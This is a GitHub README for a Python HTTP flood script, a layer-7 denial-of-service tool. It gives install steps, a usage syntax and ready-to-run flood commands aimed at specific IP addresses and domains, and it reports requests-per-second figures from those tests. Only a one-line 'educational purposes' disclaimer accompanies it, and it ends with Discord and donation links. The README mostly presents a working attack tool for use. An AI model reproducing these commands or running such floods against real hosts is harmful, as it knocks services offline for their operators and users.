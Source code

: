 # Python HTTP Flood [![Views](https://hits.sh/github.com/e43bpyflooden/hits.svg)](https://github.com/e43b/Kemono-and-Coomer-Downloader/)

###### [![](img/en-flag.svg) English](README.md) | [![](img/br.png) Português](README-pt.md)

This is a simple HTTP Flood script developed in Python.

## Installation
```sh
git clone https://github.com/e43b/Python-HttpFlood/
cd Python-HttpFlood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
Example: python main.py http://51.159.30.249 POST 1500
```

**Note: This script should only be used for educational purposes. It is not recommended or ethical to use this script on sites without permission.**

## Machine Setup and Testing
The script was run on a virtual machine with the following specifications:
- CPU: 1 core
- RAM: 2GB
- Internet Speed: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (measured with speedtest-cli)

## Test Configuration
Tests were conducted on different sites to evaluate performance at layer 7 (L7 Non Protected and L7 Non Protected SSL).

### Practical Tests with POST Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Command: `python main.py http://142.171.195.145/HIT POST 500`
- Requests per second:
  - Maximum: 1500
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Command: `python main.py https://nodec.mediathektv.com POST 700`
- Requests per second:
  - Maximum: 2800
  - Average: 1500

### Practical Tests with GET Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Command: `python main.py http://142.171.195.145/HIT GET 500`
- Requests per second:
  - Maximum: 3000
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Command: `python main.py https://nodec.mediathektv.com GET 700`
- Requests per second:
  - Maximum: 2200
  - Average: 1500

## Author
The creator of this tool is [E43b](https://github.com/e43b/).

- **Discord:** [Server](https://discord.gg/CsBMMXBz7t)
- **Donation:** [Donation Link](https://oxapay.com/donate/40874860)
